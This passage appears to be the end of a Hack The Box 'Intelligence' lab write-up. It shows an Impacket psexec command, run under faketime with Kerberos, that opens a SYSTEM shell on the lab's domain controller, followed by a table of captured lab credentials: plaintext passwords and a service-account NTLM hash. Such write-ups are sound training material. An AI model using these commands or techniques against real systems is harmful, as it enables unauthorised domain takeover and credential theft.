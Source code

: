 and BAMMMM we done!!!

```bash
➜  Intelligence faketime "$(ntpdate -q intelligence.htb | cut -d ' ' -f 1,2)" psexec.py intelligence.htb/administrator@dc.intelligence.htb -k -no-pass                       
/usr/local/bin/psexec.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'psexec.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.intelligence.htb.....
[*] Found writable share ADMIN$
[*] Uploading file kLLUvniE.exe
[*] Opening SVCManager on dc.intelligence.htb.....
[*] Creating service OXrF on dc.intelligence.htb.....
[*] Starting service OXrF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

okey.

## Creds

| username | password / hash | work at  | from | priveilges |
| --- | --- | --- | --- | --- |
| Tiffany.Molina | NewIntelligenceCorpUser9876 | smb, LDAP | PDF | read smb shares |
| Ted.Graves | Mr.Teddy | LDAP | DNS poising | readGMSA |
| svc_int | 9db7142ffb1a5550533f64941ac4a37b | LDAP | readGMSA | Constrained Delegation |
